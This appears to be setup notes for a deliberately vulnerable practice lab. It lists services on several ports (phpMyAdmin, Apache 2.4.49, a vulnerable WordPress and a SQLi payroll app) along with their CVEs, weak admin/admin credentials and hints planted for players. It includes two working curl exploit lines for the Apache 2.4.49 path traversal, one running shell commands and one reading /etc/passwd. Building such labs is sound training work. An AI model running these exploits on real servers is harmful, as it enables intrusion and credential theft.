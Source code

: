 # phpmyadmin 4.8.1 & MTGASS MOGG Web Simulator

1. **tcp 8511**
2. Post deployment: go to **backend** and configure user and password.
3. password attack, username/password comes from credz

# Apache 2.4.49

1. **tcp 8512**
2. Hidden dir, Apache 2.4.49 vuln: [CVE-2021-41773 path traversal and RCE in Apache 2.4.49](https://github.com/vulhub/vulhub/tree/master/httpd/CVE-2021-41773) - [EDB-ID 50383](https://www.exploit-db.com/exploits/50383)
3. Provide hint about exploits in hidden dir
4. add robots.txt w/ dir name

```
Exploits:
curl -s --path-as-is -d "echo; id" "172.17.0.1:8512/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh"
curl -s --path-as-is -d "echo; id" "172.17.0.1:8512/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"
```
# Wordpress w/vulnerable plugins

1. **tcp 8514**
2. WP latest: [Damn Vulnerable WordPress](https://github.com/vavkamil/dvwp). **Multiple CVEs in plugins**.
3. Weak admin password 
```
Need to add database "wordpress" to wordpress_mysql
Need to update db host from "mysql" to "wordpress_mysql" in wp-config.php
Manually activate plugins after finishing installation
```
- Weak password (admin/admin)
- [Plugin InfiniteWP Client < 1.9.4.5 Auth Bypass](https://wpscan.com/vulnerability/10011). [EDB-ID 47939](https://www.exploit-db.com/exploits/47939)
- [WordPress File Upload < 4.13.0 - Directory Traversal to RCE](https://wpvulndb.com/vulnerabilities/10132).
- [WP Advanced Search < 3.3.4 - Unauthenticated Database Access and Remote Code Execution (RCE)](https://wpvulndb.com/vulnerabilities/10115)
- [Social Warfare <= 3.5.2 - Unauthenticated Arbitrary Settings Update](https://wpvulndb.com/vulnerabilities/9238). [EDB-ID 46794](https://www.exploit-db.com/exploits/46794)

# startrek payroll
1. **tcp 8515** 
2. SQLi [thomaslaurenson/startrek_payroll](https://github.com/thomaslaurenson/startrek_payroll)
3. Credentials for **authenticated RCE in phpmyadmin 4.8.1** stored in adjacent database.
4. move app to hidden dir that requires long wordlist 
